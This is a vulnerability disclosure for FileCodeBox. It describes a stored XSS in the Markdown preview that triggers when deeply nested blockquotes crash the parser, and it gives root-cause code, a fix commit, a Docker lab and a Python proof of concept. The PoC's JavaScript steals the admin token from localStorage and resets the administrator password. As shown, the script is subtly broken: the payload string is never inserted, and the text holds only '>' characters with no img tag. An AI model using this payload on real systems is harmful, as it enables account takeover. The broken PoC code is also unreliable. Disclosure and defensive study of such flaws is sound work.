


# FileCodeBox Vulnerability Report

Software: FileCodeBox

Developer or vendor: vastsa

Code repository: https://github.com/vastsa/FileCodeBox

## 1. Stored XSS in the Text Share Markdown Preview When Parsing Fails

Brief description: An attacker shares a malicious text, and any user who opens the share link is hit by the XSS.

Affected versions: 2.4.0 to 2.8.4

Preconditions: The instance allows guest uploads, and the victim opens the share link provided by the attacker.

Fix: https://github.com/vastsa/FileCodeBoxFronted/commit/4c40406d366af1583a3ba2327366b7a62d765537

### Root cause

The 2024 theme renders the Markdown preview of a text share in the browser. `renderMarkdownPreview` first parses the body with `marked` and then sanitizes the result with DOMPurify. When parsing throws, the function returns the original body to its caller:

```ts
// src/utils/content-preview.ts
export async function renderMarkdownPreview(content: string): Promise<string> {
  try {
    const { marked, DOMPurify } = await loadMarkdownRenderer()
    const rawHtml = await marked(content)
    return DOMPurify.sanitize(rawHtml, {
      ALLOWED_TAGS: MARKDOWN_ALLOWED_TAGS,
      ALLOWED_ATTR: MARKDOWN_ALLOWED_ATTR,
      ALLOWED_URI_REGEXP:
        /^(?:(?:(?:f|ht)tps?|mailto|tel|callto|cid|xmpp|xxx):|[^a-z]|[a-z+.-]+(?:[^a-z+.-:]|$))/i
    })
  } catch (error) {
    console.error('Markdown 渲染失败:', error)
    return content
  }
}
```

`marked` throws `RangeError: Maximum call stack size exceeded` on deeply nested blockquotes. A body that starts with enough consecutive `>` characters therefore fails parsing, and the `catch` branch returns the body without any sanitization.

The body is then passed to the preview component, which inserts it as HTML through `v-html`:

```vue
<!-- src/components/common/ContentPreviewModal.vue:49 -->
<div
  class="prose max-w-none p-6 rounded-xl break-words overflow-wrap-anywhere"
  :class="isDarkMode ? 'prose-invert bg-zinc-900/60' : 'bg-slate-50'"
  v-html="renderedContent"
></div>
```

The retrieve flow opens the preview automatically once a text share is retrieved, so the victim does not need to click anything:

```ts
// src/composables/useRetrieveFlow.ts
if (newFileData.content) {
  showPreview.value = true
}
```

The script therefore runs in the origin of the site itself and can read the token in `localStorage`, which gives the attacker control of the account.

### Reproduction environment

```bash
mkdir filecodebox && cd filecodebox
cat > docker-compose.yml <<'EOF'
services:
  file-code-box:
    image: lanol/filecodebox:2.8.4
    container_name: filecodebox
    restart: "no"
    ports:
      - "12345:12345"
    environment:
      - APP_ENV=production
      - LOG_LEVEL=info
      - ACCESS_LOG=true
      - WORKERS=1
    volumes:
      - ./data:/app/data
EOF
docker compose up -d
```

Open `http://127.0.0.1:12345` and complete the initialization, keeping the Guest Upload option that the wizard enables by default.

### Reproduction

The following steps show how an attacker changes the administrator password through the XSS.

Create a text share anonymously. The body consists of 5000 `>` characters followed by an `img` tag. The `onerror` handler borrows the administrator token of the current page, calls `/admin/config/update` and sets the administrator password to `Pwned123456.`. It also inserts a red banner at the top of the page so that the execution is visible:

```python
import argparse

import httpx

ap = argparse.ArgumentParser()
ap.add_argument("--base", default="http://127.0.0.1:12345")
ap.add_argument("--new-password", default="Pwned123456.")
a = ap.parse_args()

js = (
    "document.title='PWNED';"
    "var b=document.createElement('div');"
    "b.textContent='Admin password has been changed';"
    "b.style.cssText='position:fixed;top:0;left:0;right:0;z-index:99999;"
    "background:#b91c1c;color:#fff;padding:10px;font:700 16px sans-serif';"
    "document.body.appendChild(b);"
    "fetch('/admin/config/update',{method:'PATCH',"
    "headers:{'content-type':'application/json',"
    "authorization:'Bearer '+localStorage.getItem('token')},"
    "body:JSON.stringify({admin_token:'%s'})})" % a.new_password
)
text = ">" * 5000 + '\n\n\n'

r = httpx.post(
    a.base + "/share/text/",
    data={"text": text, "expire_value": "1", "expire_style": "day"},
    timeout=30,
)
r.raise_for_status()
code = r.json()["detail"]["code"]
print("code:", code)
print("url :", "%s/#/?code=%s" % (a.base, code))
```

The script prints the retrieval code `VJAKY` and the link `http://127.0.0.1:12345/#/?code=VJAKY`.

The administrator opens the link and the script runs:



The administrator password has been changed. The attacker signs in with the new password:


